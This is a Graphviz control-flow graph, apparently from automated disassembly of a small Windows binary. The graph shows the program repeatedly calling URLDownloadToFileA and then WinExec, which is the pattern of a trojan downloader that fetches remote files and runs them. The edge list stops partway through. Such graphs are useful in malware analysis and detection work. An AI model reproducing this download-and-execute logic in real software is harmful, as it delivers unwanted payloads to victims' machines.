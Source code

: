 digraph G {
node[shape=rectangle,style=filled,fillcolor=lightsteelblue,color=lightsteelblue]
bgcolor="transparent"
a0x004012dcpushl_ebp[label="start\npushl %ebp",fillcolor="orange",color="lightgrey"];
a0x004012ddmovl_esp_ebp[label="0x004012dd\nmovl %esp, %ebp"];
a0x004012dfaddl_0xfffffff0UINT8_esp[label="0x004012df\naddl $0xfffffff0<UINT8>, %esp"];
a0x004012e2pushl_ebx[label="0x004012e2\npushl %ebx"];
a0x004012e3pushl_esi[label="0x004012e3\npushl %esi"];
a0x004012e4movl_0x4012bcUINT32_eax[label="0x004012e4\nmovl $0x4012bc<UINT32>, %eax"];
a0x004012e9call_0x00401044[label="0x004012e9\ncall 0x00401044"];
a0x00401044pushl_0x00402000[label="0x00401044\npushl 0x00402000"];
a0x0040104apushl_0x0040200c[label="0x0040104a\npushl 0x0040200c"];
a0x00401050call_0x00401000[label="0x00401050\ncall 0x00401000"];
a0x00401000jmp_LoadLibraryA_kernel32_dll[label="0x00401000\njmp LoadLibraryA@kernel32.dll"];
LoadLibraryA_kernel32_dll[label="LoadLibraryA@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x00401055movl_eax_0x00403008[label="0x00401055\nmovl %eax, 0x00403008"];
a0x0040105apushl_0x00402008[label="0x0040105a\npushl 0x00402008"];
a0x00401060call_0x00401000[label="0x00401060\ncall 0x00401000"];
a0x00401065movl_eax_0x00403004[label="0x00401065\nmovl %eax, 0x00403004"];
a0x0040106apushl_0x00402004[label="0x0040106a\npushl 0x00402004"];
a0x00401070call_0x00401000[label="0x00401070\ncall 0x00401000"];
a0x00401075movl_eax_0x00403000[label="0x00401075\nmovl %eax, 0x00403000"];
a0x0040107apushl_eax[label="0x0040107a\npushl %eax"];
a0x0040107bcall_0x00401008[label="0x0040107b\ncall 0x00401008"];
a0x00401008jmp_GetProcAddress_kernel32_dll[label="0x00401008\njmp GetProcAddress@kernel32.dll"];
GetProcAddress_kernel32_dll[label="GetProcAddress@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x00401080movl_eax_0x00403010[label="0x00401080\nmovl %eax, 0x00403010"];
a0x00401085ret[label="0x00401085\nret"];
a0x004012eemovl_0x0040204c_ebx[label="0x004012ee\nmovl 0x0040204c, %ebx"];
a0x004012f4movl_0x00402048_esi[label="0x004012f4\nmovl 0x00402048, %esi"];
a0x004012fapushl_0x0UINT8[label="0x004012fa\npushl $0x0<UINT8>"];
a0x004012fcpushl_0x0UINT8[label="0x004012fc\npushl $0x0<UINT8>"];
a0x004012femovl_0x00402024_eax[label="0x004012fe\nmovl 0x00402024, %eax"];
a0x00401303pushl_eax[label="0x00401303\npushl %eax"];
a0x00401304movl_0x00402020_eax[label="0x00401304\nmovl 0x00402020, %eax"];
a0x00401309pushl_eax[label="0x00401309\npushl %eax"];
a0x0040130apushl_0x0UINT8[label="0x0040130a\npushl $0x0<UINT8>"];
a0x0040130cpushl_0x40148cUINT32[label="0x0040130c\npushl $0x40148c<UINT32>"];
a0x00401311movl_ebx__eax[label="0x00401311\nmovl (%ebx), %eax"];
a0x00401313pushl_eax[label="0x00401313\npushl %eax"];
a0x00401314call_0x00401008[label="0x00401314\ncall 0x00401008"];
a0x00401319call_eax[label="0x00401319\ncall %eax"];
URLDownloadToFileA_URLMON_DLL[label="URLDownloadToFileA@URLMON.DLL",fillcolor="lightgrey",color="lightgrey"];
a0x0040131bpushl_0x5UINT8[label="0x0040131b\npushl $0x5<UINT8>"];
a0x0040131dmovl_0x00402024_eax[label="0x0040131d\nmovl 0x00402024, %eax"];
a0x00401322pushl_eax[label="0x00401322\npushl %eax"];
a0x00401323pushl_0x4014a0UINT32[label="0x00401323\npushl $0x4014a0<UINT32>"];
a0x00401328movl_esi__eax[label="0x00401328\nmovl (%esi), %eax"];
a0x0040132apushl_eax[label="0x0040132a\npushl %eax"];
a0x0040132bcall_0x00401008[label="0x0040132b\ncall 0x00401008"];
a0x00401330call_eax[label="0x00401330\ncall %eax"];
WinExec_kernel32_dll[label="WinExec@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x00401332pushl_0x0UINT8[label="0x00401332\npushl $0x0<UINT8>"];
a0x00401334pushl_0x0UINT8[label="0x00401334\npushl $0x0<UINT8>"];
a0x00401336movl_0x0040201c_eax[label="0x00401336\nmovl 0x0040201c, %eax"];
a0x0040133bpushl_eax[label="0x0040133b\npushl %eax"];
a0x0040133cmovl_0x00402018_eax[label="0x0040133c\nmovl 0x00402018, %eax"];
a0x00401341pushl_eax[label="0x00401341\npushl %eax"];
a0x00401342pushl_0x0UINT8[label="0x00401342\npushl $0x0<UINT8>"];
a0x00401344pushl_0x40148cUINT32[label="0x00401344\npushl $0x40148c<UINT32>"];
a0x00401349movl_ebx__eax[label="0x00401349\nmovl (%ebx), %eax"];
a0x0040134bpushl_eax[label="0x0040134b\npushl %eax"];
a0x0040134ccall_0x00401008[label="0x0040134c\ncall 0x00401008"];
a0x00401351call_eax[label="0x00401351\ncall %eax"];
a0x00401353pushl_0x5UINT8[label="0x00401353\npushl $0x5<UINT8>"];
a0x00401355movl_0x0040201c_eax[label="0x00401355\nmovl 0x0040201c, %eax"];
a0x0040135apushl_eax[label="0x0040135a\npushl %eax"];
a0x0040135bpushl_0x4014a0UINT32[label="0x0040135b\npushl $0x4014a0<UINT32>"];
a0x00401360movl_esi__eax[label="0x00401360\nmovl (%esi), %eax"];
a0x00401362pushl_eax[label="0x00401362\npushl %eax"];
a0x00401363call_0x00401008[label="0x00401363\ncall 0x00401008"];
a0x00401368call_eax[label="0x00401368\ncall %eax"];
a0x0040136apushl_0x0UINT8[label="0x0040136a\npushl $0x0<UINT8>"];
a0x0040136cpushl_0x0UINT8[label="0x0040136c\npushl $0x0<UINT8>"];
a0x0040136emovl_0x00402014_eax[label="0x0040136e\nmovl 0x00402014, %eax"];
a0x00401373pushl_eax[label="0x00401373\npushl %eax"];
a0x00401374movl_0x00402010_eax[label="0x00401374\nmovl 0x00402010, %eax"];
a0x00401379pushl_eax[label="0x00401379\npushl %eax"];
a0x0040137apushl_0x0UINT8[label="0x0040137a\npushl $0x0<UINT8>"];
a0x0040137cpushl_0x40148cUINT32[label="0x0040137c\npushl $0x40148c<UINT32>"];
a0x00401381movl_ebx__eax[label="0x00401381\nmovl (%ebx), %eax"];
a0x00401383pushl_eax[label="0x00401383\npushl %eax"];
a0x00401384call_0x00401008[label="0x00401384\ncall 0x00401008"];
a0x00401389call_eax[label="0x00401389\ncall %eax"];
a0x0040138bpushl_0x5UINT8[label="0x0040138b\npushl $0x5<UINT8>"];
a0x0040138dmovl_0x00402014_eax[label="0x0040138d\nmovl 0x00402014, %eax"];
a0x00401392pushl_eax[label="0x00401392\npushl %eax"];
a0x00401393pushl_0x4014a0UINT32[label="0x00401393\npushl $0x4014a0<UINT32>"];
a0x00401398movl_esi__eax[label="0x00401398\nmovl (%esi), %eax"];
a0x0040139apushl_eax[label="0x0040139a\npushl %eax"];
a0x0040139bcall_0x00401008[label="0x0040139b\ncall 0x00401008"];
a0x004013a0call_eax[label="0x004013a0\ncall %eax"];
a0x004013a2pushl_0x0UINT8[label="0x004013a2\npushl $0x0<UINT8>"];
a0x004013a4pushl_0x0UINT8[label="0x004013a4\npushl $0x0<UINT8>"];
a0x004013a6movl_0x0040202c_eax[label="0x004013a6\nmovl 0x0040202c, %eax"];
a0x004013abpushl_eax[label="0x004013ab\npushl %eax"];
a0x004013acmovl_0x00402028_eax[label="0x004013ac\nmovl 0x00402028, %eax"];
a0x004013b1pushl_eax[label="0x004013b1\npushl %eax"];
a0x004013b2pushl_0x0UINT8[label="0x004013b2\npushl $0x0<UINT8>"];
a0x004013b4pushl_0x40148cUINT32[label="0x004013b4\npushl $0x40148c<UINT32>"];
a0x004013b9movl_ebx__eax[label="0x004013b9\nmovl (%ebx), %eax"];
a0x004013bbpushl_eax[label="0x004013bb\npushl %eax"];
a0x004013bccall_0x00401008[label="0x004013bc\ncall 0x00401008"];
a0x004013c1call_eax[label="0x004013c1\ncall %eax"];
a0x004013c3pushl_0x5UINT8[label="0x004013c3\npushl $0x5<UINT8>"];
a0x004013c5movl_0x0040202c_eax[label="0x004013c5\nmovl 0x0040202c, %eax"];
a0x004013capushl_eax[label="0x004013ca\npushl %eax"];
a0x004013cbpushl_0x4014a0UINT32[label="0x004013cb\npushl $0x4014a0<UINT32>"];
a0x004013d0movl_esi__eax[label="0x004013d0\nmovl (%esi), %eax"];
a0x004013d2pushl_eax[label="0x004013d2\npushl %eax"];
a0x004013d3call_0x00401008[label="0x004013d3\ncall 0x00401008"];
a0x004013d8call_eax[label="0x004013d8\ncall %eax"];
a0x004013dapushl_0x0UINT8[label="0x004013da\npushl $0x0<UINT8>"];
a0x004013dcpushl_0x0UINT8[label="0x004013dc\npushl $0x0<UINT8>"];
a0x004013demovl_0x00402034_eax[label="0x004013de\nmovl 0x00402034, %eax"];
a0x004013e3pushl_eax[label="0x004013e3\npushl %eax"];
a0x004013e4movl_0x00402030_eax[label="0x004013e4\nmovl 0x00402030, %eax"];
a0x004013e9pushl_eax[label="0x004013e9\npushl %eax"];
a0x004013eapushl_0x0UINT8[label="0x004013ea\npushl $0x0<UINT8>"];
a0x004013ecpushl_0x40148cUINT32[label="0x004013ec\npushl $0x40148c<UINT32>"];
a0x004013f1movl_ebx__eax[label="0x004013f1\nmovl (%ebx), %eax"];
a0x004013f3pushl_eax[label="0x004013f3\npushl %eax"];
a0x004013f4call_0x00401008[label="0x004013f4\ncall 0x00401008"];
a0x004013f9call_eax[label="0x004013f9\ncall %eax"];
a0x004013fbpushl_0x5UINT8[label="0x004013fb\npushl $0x5<UINT8>"];
a0x004013fdmovl_0x00402034_eax[label="0x004013fd\nmovl 0x00402034, %eax"];
a0x00401402pushl_eax[label="0x00401402\npushl %eax"];
a0x00401403pushl_0x4014a0UINT32[label="0x00401403\npushl $0x4014a0<UINT32>"];
a0x00401408movl_esi__eax[label="0x00401408\nmovl (%esi), %eax"];
a0x0040140apushl_eax[label="0x0040140a\npushl %eax"];
a0x0040140bcall_0x00401008[label="0x0040140b\ncall 0x00401008"];
a0x00401410call_eax[label="0x00401410\ncall %eax"];
a0x00401412pushl_0x0UINT8[label="0x00401412\npushl $0x0<UINT8>"];
a0x00401414pushl_0x0UINT8[label="0x00401414\npushl $0x0<UINT8>"];
a0x00401416movl_0x0040203c_eax[label="0x00401416\nmovl 0x0040203c, %eax"];
a0x0040141bpushl_eax[label="0x0040141b\npushl %eax"];
a0x0040141cmovl_0x00402038_eax[label="0x0040141c\nmovl 0x00402038, %eax"];
a0x00401421pushl_eax[label="0x00401421\npushl %eax"];
a0x00401422pushl_0x0UINT8[label="0x00401422\npushl $0x0<UINT8>"];
a0x00401424pushl_0x40148cUINT32[label="0x00401424\npushl $0x40148c<UINT32>"];
a0x00401429movl_ebx__eax[label="0x00401429\nmovl (%ebx), %eax"];
a0x0040142bpushl_eax[label="0x0040142b\npushl %eax"];
a0x0040142ccall_0x00401008[label="0x0040142c\ncall 0x00401008"];
a0x00401431call_eax[label="0x00401431\ncall %eax"];
a0x00401433pushl_0x5UINT8[label="0x00401433\npushl $0x5<UINT8>"];
a0x00401435movl_0x0040203c_eax[label="0x00401435\nmovl 0x0040203c, %eax"];
a0x0040143apushl_eax[label="0x0040143a\npushl %eax"];
a0x0040143bpushl_0x4014a0UINT32[label="0x0040143b\npushl $0x4014a0<UINT32>"];
a0x00401440movl_esi__eax[label="0x00401440\nmovl (%esi), %eax"];
a0x00401442pushl_eax[label="0x00401442\npushl %eax"];
a0x00401443call_0x00401008[label="0x00401443\ncall 0x00401008"];
a0x00401448call_eax[label="0x00401448\ncall %eax"];
a0x0040144apushl_0x0UINT8[label="0x0040144a\npushl $0x0<UINT8>"];
a0x0040144cpushl_0x0UINT8[label="0x0040144c\npushl $0x0<UINT8>"];
a0x0040144emovl_0x00402044_eax[label="0x0040144e\nmovl 0x00402044, %eax"];
a0x00401453pushl_eax[label="0x00401453\npushl %eax"];
a0x00401454movl_0x00402040_eax[label="0x00401454\nmovl 0x00402040, %eax"];
a0x00401459pushl_eax[label="0x00401459\npushl %eax"];
a0x0040145apushl_0x0UINT8[label="0x0040145a\npushl $0x0<UINT8>"];
a0x0040145cpushl_0x40148cUINT32[label="0x0040145c\npushl $0x40148c<UINT32>"];
a0x00401461movl_ebx__eax[label="0x00401461\nmovl (%ebx), %eax"];
a0x00401463pushl_eax[label="0x00401463\npushl %eax"];
a0x00401464call_0x00401008[label="0x00401464\ncall 0x00401008"];
a0x00401469call_eax[label="0x00401469\ncall %eax"];
a0x0040146bpushl_0x5UINT8[label="0x0040146b\npushl $0x5<UINT8>"];
a0x0040146dmovl_0x00402044_eax[label="0x0040146d\nmovl 0x00402044, %eax"];
a0x00401472pushl_eax[label="0x00401472\npushl %eax"];
a0x00401473pushl_0x4014a0UINT32[label="0x00401473\npushl $0x4014a0<UINT32>"];
a0x00401478movl_esi__eax[label="0x00401478\nmovl (%esi), %eax"];
a0x0040147apushl_eax[label="0x0040147a\npushl %eax"];
a0x0040147bcall_0x00401008[label="0x0040147b\ncall 0x00401008"];
a0x00401480call_eax[label="0x00401480\ncall %eax"];
a0x00401482popl_esi[label="0x00401482\npopl %esi"];
a0x00401483popl_ebx[label="0x00401483\npopl %ebx"];
a0x00401484call_0x0040108c[label="0x00401484\ncall 0x0040108c"];
a0x0040108cpushl_0x0040300c[label="0x0040108c\npushl 0x0040300c"];
a0x00401092call_0x00403010[label="0x00401092\ncall 0x00403010"];
ExitProcess_kernel32_dll[label="ExitProcess@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x004012dcpushl_ebp -> a0x004012ddmovl_esp_ebp [color="#000000"];
a0x004012ddmovl_esp_ebp -> a0x004012dfaddl_0xfffffff0UINT8_esp [color="#000000"];
a0x004012dfaddl_0xfffffff0UINT8_esp -> a0x004012e2pushl_ebx [color="#000000"];
a0x004012e2pushl_ebx -> a0x004012e3pushl_esi [color="#000000"];
a0x004012e3pushl_esi -> a0x004012e4movl_0x4012bcUINT32_eax [color="#000000"];
a0x004012e4movl_0x4012bcUINT32_eax -> a0x004012e9call_0x00401044 [color="#000000"];
a0x004012e9call_0x00401044 -> a0x00401044pushl_0x00402000 [color="#000000"];
a0x00401044pushl_0x00402000 -> a0x0040104apushl_0x0040200c [color="#000000"];
a0x0040104apushl_0x0040200c -> a0x00401050call_0x00401000 [color="#000000"];
a0x00401050call_0x00401000 -> a0x00401000jmp_LoadLibraryA_kernel32_dll [color="#000000"];
a0x00401000jmp_LoadLibraryA_kernel32_dll -> LoadLibraryA_kernel32_dll [color="#000000"];
LoadLibraryA_kernel32_dll -> a0x00401055movl_eax_0x00403008 [color="#000000"];
a0x00401055movl_eax_0x00403008 -> a0x0040105apushl_0x00402008 [color="#000000"];
a0x0040105apushl_0x00402008 -> a0x00401060call_0x00401000 [color="#000000"];
a0x00401060call_0x00401000 -> a0x00401000jmp_LoadLibraryA_kernel32_dll [color="#000000"];
LoadLibraryA_kernel32_dll -> a0x00401065movl_eax_0x00403004 [color="#000000"];
a0x00401065movl_eax_0x00403004 -> a0x0040106apushl_0x00402004 [color="#000000"];
a0x0040106apushl_0x00402004 -> a0x00401070call_0x00401000 [color="#000000"];
a0x00401070call_0x00401000 -> a0x00401000jmp_LoadLibraryA_kernel32_dll [color="#000000"];
LoadLibraryA_kernel32_dll -> a0x00401075movl_eax_0x00403000 [color="#000000"];
a0x00401075movl_eax_0x00403000 -> a0x0040107apushl_eax [color="#000000"];
a0x0040107apushl_eax -> a0x0040107bcall_0x00401008 [color="#000000"];
a0x0040107bcall_0x00401008 -> a0x00401008jmp_GetProcAddress_kernel32_dll [color="#000000"];
a0x00401008jmp_GetProcAddress_kernel32_dll -> GetProcAddress_kernel32_dll [color="#000000"];
GetProcAddress_kernel32_dll -> a0x00401080movl_eax_0x00403010 [color="#000000"];
a0x00401080movl_eax_0x00403010 -> a0x00401085ret [color="#000000"];
a0x00401085ret -> a0x004012eemovl_0x0040204c_ebx [color="#000000"];
a0x004012eemovl_0x0040204c_ebx -> a0x004012f4movl_0x00402048_esi [color="#000000"];
a0x004012f4movl_0x00402048_esi -> a0x004012fapushl_0x0UINT8 [color="#000000"];
a0x004012fapushl_0x0UINT8 -> a0x004012fcpushl_0x0UINT8 [color="#000000"];
a0x004012fcpushl_0x0UINT8 -> a0x004012femovl_0x00402024_eax [color="#000000"];
a0x004012femovl_0x00402024_eax -> a0x00401303pushl_eax [color="#000000"];
a0x00401303pushl_eax -> a0x00401304movl_0x00402020_eax [color="#000000"];
a0x00401304movl_0x00402020_eax -> a0x00401309pushl_eax [color="#000000"];
a0x00401309pushl_eax -> a0x0040130apushl_0x0UINT8 [color="#000000"];
a0x0040130apushl_0x0UINT8 -> a0x0040130cpushl_0x40148cUINT32 [color="#000000"];
a0x0040130cpushl_0x40148cUINT32 -> a0x00401311movl_ebx__eax [color="#000000"];
a0x00401311movl_ebx__eax -> a0x00401313pushl_eax [color="#000000"];
a0x00401313pushl_eax -> a0x00401314call_0x00401008 [color="#000000"];
a0x00401314call_0x00401008 -> a0x00401008jmp_GetProcAddress_kernel32_dll [color="#000000"];
GetProcAddress_kernel32_dll -> a0x00401319call_eax [color="#000000"];
a0x00401319call_eax -> URLDownloadToFileA_URLMON_DLL [color="#000000"];
URLDownloadToFileA_URLMON_DLL -> a0x0040131bpushl_0x5UINT8 [color="#000000"];
a0x0040131bpushl_0x5UINT8 -> a0x0040131dmovl_0x00402024_eax [color="#000000"];
a0x0040131dmovl_0x00402024_eax -> a0x00401322pushl_eax [color="#000000"];
a0x00401322pushl_eax -> a0x00401323pushl_0x4014a0UINT32 [color="#000000"];
a0x00401323pushl_0x4014a0UINT32 -> a0x00401328movl_esi__eax [color="#000000"];
a0x00401328movl_esi__eax -> a0x0040132apushl_eax [color="#000000"];
a0x0040132apushl_eax -> a0x0040132bcall_0x00401008 [color="#000000"];
a0x0040132bcall_0x00401008 -> a0x00401008jmp_GetProcAddress_kernel32_dll [color="#000000"];
GetProcAddress_kernel32_dll -> a0x00401330call_eax [color="#000000"];
a0x00401330call_eax -> WinExec_kernel32_dll [color="#000000"];
WinExec_kernel32_dll -> a0x00401332pushl_0x0UINT8 [color="#000000"];
a0x00401332pushl_0x0UINT8 -> a0x00401334pushl_0x0UINT8 [color="#000000"];
a0x00401334pushl_0x0UINT8 -> a0x00401336movl_0x0040201c_eax [color="#000000"];
a0x00401336movl_0x0040201c_eax -> a0x0040133bpushl_eax [color="#000000"];
a0x0040133bpushl_eax -> a0x0040133cmovl_0x00402018_eax [color="#000000"];
a0x0040133cmovl_0x00402018_eax -> a0x00401341pushl_eax [color="#000000"];
a0x00401341pushl_eax -> a0x00401342pushl_0x0UINT8 [color="#000000"];
a0x00401342pushl_0x0UINT8 -> a0x00401344pushl_0x40148cUINT32 [color="#000000"];
a0x00401344pushl_0x40148cUINT32 -> a0x00401349movl_ebx__eax [color="#000000"];
a0x00401349movl_ebx__eax -> a0x0040134bpushl_eax [color="#000000"];
a0x0040134bpushl_eax -> a0x0040134ccall_0x00401008 [color="#000000"];
a0x0040134ccall_0x00401008 -> a0x00401008jmp_GetProcAddress_kernel32_dll [color="#000000"];
GetProcAddress_kernel32_dll -> a0x00401351call_eax [color="#000000"];
a0x00401351call_eax -> URLDownloadToFileA_URLMON_DLL [color="#000000"];
URLDownloadToFileA_URLMON_DLL -> a0x00401353pushl_0x5UINT8 [color="#000000"];
a0x00401353pushl_0x5UINT8 -> a0x00401355movl_0x0040201c_eax [color="#000000"];
a0x00401355movl_0x0040201c_eax -> a0x0040135apushl_eax [color="#000000"];
a0x0040135apushl_eax -> a0x0040135bpushl_0x4014a0UINT32 [color="#000000"];
a0x0040135bpushl_0x4014a0UINT32 -> a0x00401360movl_esi__eax [color="#000000"];
a0x00401360movl_esi__eax -> a0x00401362pushl_eax [color="#000000"];
a0x00401362pushl_eax -> a0x00401363call_0x00401008 [color="#000000"];
a0x00401363call_0x00401008 -> a0x00401008jmp_GetProcAddress_kernel32_dll [color="#000000"];
GetProcAddress_kernel32_dll -> a0x00401368call_eax [color="#000000"];
a0x00401368call_eax -> WinExec_kernel32_dll [color="#000000"];
WinExec_kernel32_dll -> a0x0040136apushl_0x0UINT8 [color="#000000"];
